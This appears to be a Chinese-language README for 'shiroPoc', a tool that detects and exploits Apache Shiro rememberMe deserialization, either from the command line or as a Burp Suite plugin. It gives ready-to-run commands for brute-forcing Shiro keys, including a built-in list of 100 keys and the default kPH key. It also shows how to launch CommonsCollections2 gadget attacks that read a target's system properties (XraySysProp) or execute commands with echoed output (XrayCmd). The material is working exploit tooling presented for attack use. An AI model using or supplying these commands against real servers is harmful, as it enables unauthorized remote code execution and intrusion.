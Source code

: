 mvn package 编译

## 欢迎关注 宽字节安全 公众号
![](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//imgWeChat%20Image_20200612150038.png)
## changelog
1. 新增shiro 检测方式(对，就是那个不需要gadget的检测方式) 2020.7.30
2. 新增shiro 100 key
3. 支持自定义key
4. 支持作为插件导入burp
6. 支持burp的被动扫描（需要burp pro版本

## 被动扫描演示
![](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//img20200806125336.png)
##### 检测到shiro框架
![](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//img20200806124314.png)

##### 自动探测shiro的key
![](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//img20200806124243.png)

## burp插件使用方法
![](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//img20200801160819.png)

repeater界面中右键，生成payload
![](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//img20200801160932.png)
默认kph密钥，cc2利用链，获取信息，如果需要修改，请右键选择config
![](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//img20200801161039.png)

生成后，会自动替换request内容，并攻击

![](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//img20200801161129.png)


当然，这个jar包也可以直接在命令行下运行，生成rememberMe，或者检测，一切不变

自定义key检测
```
java -cp .\shiroPoc-1.0-SNAPSHOT-jar-with-dependencies.jar org.unicodesec.poc http://localhost:8080/samples_web_war/ kPH+bIxk5D2deZiIxcaaaA==
```

内置100key检测

```
java -cp .\shiroPoc-1.0-SNAPSHOT-jar-with-dependencies.jar org.unicodesec.poc http://localhost:8080/sam
ples_web_war/
```

```
java -jar .\shiroPoc-1.0-SNAPSHOT-jar-with-dependencies.jar kPH+bIxk5D2deZiIxcaaaA== CommonsCollections2 XraySysProp
```

## 检测方式
运行
```
java -cp .\shiroPoc-1.0-SNAPSHOT-jar-with-dependencies.jar org.unicodesec.poc 
```
![](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//img20200730200713.png)


检测

```
java -cp .\shiroPoc-1.0-SNAPSHOT-jar-with-dependencies.jar org.unicodesec.poc http://localhost:8080/sam
ples_web_war/
```
![](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//img20200730200536.png)


## shiro-urldns 检测&利用工具
支持shiro 16个key，支持攻击利用。支持的key与gadget以及攻击类型如下
![](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//img20200726115923.png)


## 查看目标服务器的系统信息
该攻击类型为`XraySysProp`，使用方法如下
```
java -jar .\shiroPoc-1.0-SNAPSHOT-jar-with-dependencies.jar 16 CommonsCollections2 XraySysProp
```

![](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//img20200726121111.png)

利用截图如下

![](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//img20200726121840.png)

## 执行命令并回显
该攻击类型为`XrayCmd` 使用方法如下
```
java -jar .\shiroPoc-1.0-SNAPSHOT-jar-with-dependencies.jar 16 CommonsCollections2 XrayCmd
```
利用截图如下
![](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//img20200726122210.png)

## 注意事项
1. 建议删除不相关的http请求头，不然会因为http请求头过大而提示400错误
2.  建议使用CommonsCollections2 gadget，体积小，利用率高
